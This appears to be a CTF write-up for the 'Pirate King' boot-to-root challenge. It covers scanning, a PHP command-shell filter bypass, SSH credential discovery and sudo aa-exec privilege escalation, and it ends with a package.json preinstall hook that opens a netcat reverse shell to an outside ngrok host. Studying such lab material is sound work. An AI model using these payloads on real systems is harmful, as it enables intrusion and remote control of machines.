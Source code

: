 * * *

### CTF: BICCTF 24

* * *

------------------------

### CHALLENGES

### B2R

-     Pirate King:Question [9] - [12]

-----------------------

### Pirate King

![image](https://github.com/user-attachments/assets/53744598-c639-4c2a-9fab-074e4051614a)

- The server was hosted on ip:`54.226.229.244`

      ❯ rustscan -a 54.226.229.244
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 54.226.229.244:22
      Open 54.226.229.244:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 04:44 EDT
      Initiating Ping Scan at 04:44
      Scanning 54.226.229.244 [2 ports]
      Completed Ping Scan at 04:44, 0.30s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 04:44
      Completed Parallel DNS resolution of 1 host. at 04:44, 2.03s elapsed
      DNS resolution of 1 IPs took 2.03s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 04:44
      Scanning ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244) [2 ports]
      Discovered open port 80/tcp on 54.226.229.244
      Discovered open port 22/tcp on 54.226.229.244
      Completed Connect Scan at 04:44, 0.27s elapsed (2 total ports)
      Nmap scan report for ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244)
      Host is up, received syn-ack (0.29s latency).
      Scanned at 2024-08-11 04:44:30 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


- I scanned with Rustcan and discovered 2 open ports, port 80 `http` and port 22 `ssh` respectively.

- The site's source code contains this hint to check `robots.txt` file

![image](https://github.com/user-attachments/assets/e6ee4bf9-940e-4540-b413-41652c4611b3)

- The robots.txt file disallow crawling of files `syrup.jpeg` and `kaya.txt`
![image](https://github.com/user-attachments/assets/88594d64-5b2b-462b-a829-1e020033be19)

- Kaya.txt leads us to `dev_shell.php` page where we can execute shell commands.Although the shell code filters shell commands,checking the source code presents our first flag
![image](https://github.com/user-attachments/assets/8866ab4b-d112-48f2-bc4e-614e25a0320f)

- Flag-:``` BICCTF{Bl@ck_C@t_P1r@tes}```

### SSH ACCESS

- Running `l\s` to bypass the filter reveals a txt file.

![image](https://github.com/user-attachments/assets/3affc173-bb7a-48c5-9bff-38b0b99222a3)

- The txt file contains ssh credentials for the user `kuro`

![image](https://github.com/user-attachments/assets/602078b4-7702-4904-bdbf-5b30b8c50c9b)

- SSH Access
![image](https://github.com/user-attachments/assets/da974b06-bebb-4c72-97b5-073ca20e3692)

- `/home/kuro/Desktop/flag2.txt` contains the second flag
![image](https://github.com/user-attachments/assets/6c24be62-2334-4315-91da-8c8aba7c9c8b)

- Flag2-:```BICCTF{Nukia$hi}```

### User Usopp
- Running `sudo -l` as user `kuro` shows we can run binary `aa-exec` as user `usopp` without password.

![image](https://github.com/user-attachments/assets/99f8b741-280a-4ef9-b763-907ba73b6b59)

- I got this payload from gtfobins `aa-exec /bin/sh -p`, run with `aa-exec /bin/bash -p` to get a bash shell.Now, we have access to user `Usopp`
   Payload-:```sudo -u usopp aa-exec /bin/bash -p```

![image](https://github.com/user-attachments/assets/9ea1e3f3-d4ab-41e0-ac82-ff34291e62bd)

- The third flag is located in `/home/usopp/Desktop/flag3.txt`

![image](https://github.com/user-attachments/assets/d677d4c6-504d-438f-a84e-1ea259b792ab)

- Flag3-:```BICCTF{P@ch1nko}```
  
### Accessing User `node` with `npm install` cronjob

- This hint in the `Document` directory reveals a nodejob that run every 2mins

![image](https://github.com/user-attachments/assets/f862d4c6-0403-4d1e-b485-8ffbd4ebdcc2)

- We can abuse the package-lock.json file to spawn a reverse shell by creating a new one since the present one cannot be edited.

      {
        "name": ".nodeitems",
        "scripts": {
                 "preinstall": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 5.tcp.eu.ngrok.io 11222 >/tmp/f"
             }
      }
      

